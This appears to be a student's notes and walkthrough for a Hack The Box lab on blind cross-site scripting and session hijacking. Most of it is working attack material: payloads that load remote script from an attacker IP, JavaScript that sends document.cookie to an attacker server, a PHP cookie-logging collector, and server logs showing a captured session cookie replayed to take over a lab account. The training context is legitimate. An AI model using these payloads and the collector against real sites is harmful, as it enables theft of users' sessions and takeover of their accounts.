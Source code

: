 # Session Hijacking

With the ability to execute JavaScript code on the victim's browser, we may be able to collect their cookies and send them to our server to hijack their logged-in session by performing a Session Hijacking (aka Cookie Stealing) attack.

## Blind XSS Detection

Blind XSS : vulnerability is triggered on a page we don't have access to.

how would we be able to detect an XSS vulnerability if we cannot see how the output is handled?

--> use a JavaScript payload that sends an HTTP request back to our server.

How can we know which specific field is vulnerable? 
Since any of the fields may execute our code, we can't know which of them did.

How can we know what XSS payload to use? 
Since the page may be vulnerable, but the payload may not work?

## Loading a Remote Script

<script src="http://OUR_IP/script.js"></script>

If we inject the script into username field :
<script src="http://OUR_IP/username"></script>

--> To ensure username is the vulnerable field

Tip : Skip email and passwords fields because there is input validation on email and passwords are stored as hash

## Testing various payloads

<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>

## Session Hijacking

Once we find a working XSS payload and have identified the vulnerable input field :

Using a payload to send us a cookie : script.js on our VM

document.location='http://OUR_IP/index.php?c='+document.cookie;

OR

new Image().src='http://OUR_IP/index.php?c='+document.cookie;

Change the URL in previous XSS Payload 

<script src=http://OUR_IP/script.js></script>

We can save the following PHP script as index.php 

mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

sudo php -S 0.0.0.0:8081

cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2

Finally, we can use this cookie on the login.php page to access the victim's account.

## LAB

http://10.129.143.89/hijacking

mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

sudo php -S 0.0.0.0:8081

<script src=http://10.10.15.46:8081/username></script>

--> failed

'><script src=http://10.10.15.46:8081/username></script>

--> failed

"><script src=http://10.10.15.46:8081/username></script>

--> failed

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://10.10.15.46:8081/username\';document.body.appendChild(a)')

--> failed

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//10.10.15.46:8081/username");a.send();</script>

--> failed

<script>$.getScript("http://10.10.15.46:8081/username")</script>

--> failed

<script src=http://10.10.15.46:8081/fullname></script>

--> failed

'><script src=http://10.10.15.46:8081/fullname></script>

--> failed

"><script src=http://10.10.15.46:8081/fullname></script>

--> failed

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://10.10.15.46:8081/fullname\';document.body.appendChild(a)')

--> failed

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//10.10.15.46:8081/fullname");a.send();</script>

--> failed

<script>$.getScript("http://10.10.15.46:8081/fullname")</script>

--> failed

<script src=http://10.10.15.46:8081/profilpicture></script>

--> failed

'><script src=http://10.10.15.46:8081/profilpicture></script>

--> failed

"><script src=http://10.10.15.46:8081/profilpicture></script>

[Thu Dec 28 11:38:37 2023] PHP 7.4.33 Development Server (http://0.0.0.0:8081) started
[Thu Dec 28 11:50:27 2023] 10.129.143.89:33042 Accepted
[Thu Dec 28 11:50:27 2023] 10.129.143.89:33042 [200]: GET /profilpicture
[Thu Dec 28 11:50:27 2023] 10.129.143.89:33042 Closing

On our web server :

vi script.js

new Image().src='http://10.10.15.46:8081/index.php?c='+document.cookie;

sudo php -S 0.0.0.0:8081


"><script src=http://10.10.15.46:8081/script.js></script>

[Thu Dec 28 11:53:12 2023] PHP 7.4.33 Development Server (http://0.0.0.0:8081) started
[Thu Dec 28 11:53:21 2023] 10.129.143.89:33124 Accepted
[Thu Dec 28 11:53:21 2023] 10.129.143.89:33124 [200]: (null) /script.js
[Thu Dec 28 11:53:21 2023] 10.129.143.89:33124 Closing
[Thu Dec 28 11:53:21 2023] 10.129.143.89:33126 Accepted
[Thu Dec 28 11:53:21 2023] 10.129.143.89:33126 [200]: GET /index.php?c=cookie=c00k1355h0u1d8353cu23d
[Thu Dec 28 11:53:21 2023] 10.129.143.89:33126 Closing

cat /tmp/tmpserver/cookies.txt
Victim IP: 10.129.143.89 | Cookie: cookie=c00k1355h0u1d8353cu23d

Firefox > Application >  Storage > Cookies

POST /hijacking/login.php HTTP/1.1
Host: 10.129.143.89
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Origin: http://10.129.143.89
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.129.143.89/hijacking/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: cookie=c00k1355h0u1d8353cu23d
Connection: close

username=test&password=test


HTB{4lw4y5_53cur3_y0ur_c00k135}

